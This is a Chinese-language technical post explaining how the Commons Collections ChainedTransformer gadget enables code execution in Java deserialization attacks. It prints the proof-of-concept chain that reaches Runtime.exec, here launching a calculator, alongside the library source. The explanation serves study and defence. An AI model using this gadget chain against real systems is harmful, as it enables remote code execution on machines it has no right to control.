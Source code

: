 很多关于Java反序列化的文章里会写利用ChainedTransformer来执行代码，但是这个特性在代码层面是如何表现的呢？

通过逆向，我们可以看到接口`Transformer`定义了一个方法`transform()`
```
public interface Transformer {

    /**
     * Transforms the input object (leaving it unchanged) into some output object.
     *
     * @param input  the object to be transformed, should be left unchanged
     * @return a transformed object
     * @throws ClassCastException (runtime) if the input is the wrong class
     * @throws IllegalArgumentException (runtime) if the input is invalid
     * @throws FunctorException (runtime) if the transform cannot be completed
     */
    public Object transform(Object input);
}
```

POC代码中一共使用到三个实现类
1. ChainedTransformer
2. ConstantTransformer
3. InvokerTransformer

关键的一段构造
```
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /System/Applications/Calculator.app" }) };
Transformer transformerChain = new ChainedTransformer(transformers);
```

实现类`ChainedTransformer`，对内部的Transformer一个个进行调用方法`transform()`
```
public class ChainedTransformer implements Transformer, Serializable {

    ...
    
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
}
```

实现类`ConstantTransformer`
```
public class ConstantTransformer implements Transformer, Serializable {
    
    ...
    
    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return iConstant;
    }
}
```
